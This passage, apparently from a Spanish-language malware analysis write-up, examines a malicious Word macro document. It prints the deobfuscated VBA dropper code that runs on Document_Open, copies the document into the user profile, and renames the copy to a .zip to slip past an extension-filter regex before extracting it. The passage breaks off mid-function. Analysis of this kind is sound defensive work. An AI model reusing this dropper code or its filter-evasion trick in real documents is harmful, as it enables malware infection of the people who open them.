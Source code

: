 ```regex
\.(zip|exe)$
```

En la macro, se visualiza la cadena "do_mc_xs.zi_p", la cual no es detectada por la expresión regular; sin embargo, durante la ejecución se renombra a "domcxs.zip" para su posterior procesamiento.

Dado que la función tiene varias filas, y es dificil de entender con nombres de variable poco amigables, la exportamos a un archivo para "limpiarla" un poco:

```powershell
olevba.exe -c .\e38c39e302de158d22e8d0ba9cd6cc9368817bc611418a5777d00b90a9341404.docm > macros.vba
```

Una vez exportada, identificamos que Document_Open() llama a la función "weoqzisdi___lorfar()":

![alt text](/img/003-documentOpen.png "Document Open Function")

Dado que no vemos que ninguna de las otras funciones contenga código, extraemos la función weoqzisdi___lorfar() para su análisis:

```vba
Sub weoqzisdi___lorfar()
    
    Dim path_weoqzisdi___file As String
    
    Dim file_weoqzisdi___name  As String
    
    Dim folder_weoqzisdi___name  As Variant
    Dim oAzedpp     As Object
    
    Set oAzedpp = CreateObject("Shell.Application")
    
    file_weoqzisdi___name = "vteijam hdgtra"
    
    folder_weoqzisdi___name = Environ$("USERPROFILE") & "\Wrdix" & "" & Second(Now) & "\"
    
    If Dir(folder_weoqzisdi___name, vbDirectory) = "" Then
        MkDir (folder_weoqzisdi___name)
    End If
    
    path_weoqzisdi___file = folder_weoqzisdi___name & file_weoqzisdi___name
    
    Dim FSEDEO      As Object
    Set FSEDEO = CreateObject("Scripting.FileSystemObject")
    
    FSEDEO.CopyFile Application.ActiveDocument.FullName, folder_weoqzisdi___name & Replace("do_mc_xs", "_", ""), TRUE
    Set FSEDEO = Nothing
    
    Name folder_weoqzisdi___name & Replace("do_mc_xs", "_", "") As folder_weoqzisdi___name & Replace("do_mc_xs.zi_p", "_", "")
    
    oAzedpp.Namespace(folder_weoqzisdi___name).CopyHere oAzedpp.Namespace(folder_weoqzisdi___name & Replace("do_mc_xs.zi_p", "_", "")).items
    
    Dim poueeds     As Integer
    Dim filewedum   As String
    
    poueeds = InStr(Application.System.Version, ".1")
    
    filewedum = 2
    
    If poueeds Then
        filewedum = 1
    End If
    
```